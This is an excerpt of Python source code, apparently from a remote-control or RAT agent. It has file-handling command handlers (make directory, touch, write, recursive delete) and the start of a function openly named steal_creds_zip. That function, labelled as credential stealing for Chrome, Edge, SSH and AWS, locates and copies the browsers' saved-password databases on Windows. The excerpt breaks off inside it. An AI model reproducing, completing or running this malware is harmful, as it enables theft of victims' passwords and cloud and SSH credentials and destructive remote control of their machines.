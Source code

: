 # Make directory
def mkdir_command(dirname):
    try:
        os.makedirs(dirname, exist_ok=True)
        return f"Directory '{dirname}' created (or already exists).\n{END_RESULT}"
    except Exception as e:
        return f"Failed to create directory '{dirname}': {e}\n{END_RESULT}"

# Touch (create/update) file
def touch_command(filename):
    try:
        with open(filename, "a", encoding="utf-8"):
            os.utime(filename, None)
        return f"File '{filename}' touched (created or updated).\n{END_RESULT}"
    except Exception as e:
        return f"Failed to touch file '{filename}': {e}\n{END_RESULT}"

# Write quick text to file
def write_file_quick(command):
    try:
        parts = command.split(" ", 2)
        if len(parts) < 3:
            return "Usage: write <filename> <content>\n" + END_RESULT
        filename, content = parts[1], parts[2]
        with open(filename, "a", encoding="utf-8") as f:
            f.write(content + "\n")
        return f"Text written to '{filename}' successfully.\n{END_RESULT}"
    except Exception as e:
        return f"Failed to write to file '{filename}': {e}\n{END_RESULT}"

# Delete file or directory
def delete_path(target):
    try:
        if os.path.isfile(target):
            os.remove(target)
            return f"File '{target}' deleted.\n{END_RESULT}"
        elif os.path.isdir(target):
            shutil.rmtree(target)
            return f"Directory '{target}' deleted.\n{END_RESULT}"
        else:
            return f"'{target}' not found.\n{END_RESULT}"
    except Exception as e:
        return f"Failed to delete '{target}': {e}\n{END_RESULT}"

# Credential stealing (Chrome, Edge, SSH, AWS, etc.)
def steal_creds_zip(zipname="stolen_creds.zip"):
    to_zip = []
    base = os.path.expanduser("~")
    # Chrome and Edge browser password extraction (Windows)
    if os.name == "nt":
        chrome_login_db = os.path.join(base, r"AppData\Local\Google\Chrome\User Data\Default\Login Data")
        edge_login_db = os.path.join(base, r"AppData\Local\Microsoft\Edge\User Data\Default\Login Data")
        for db_path, browser in [(chrome_login_db, "chrome"), (edge_login_db, "edge")]:
            if os.path.exists(db_path):
                try:
                    temp_db = db_path + ".tmp"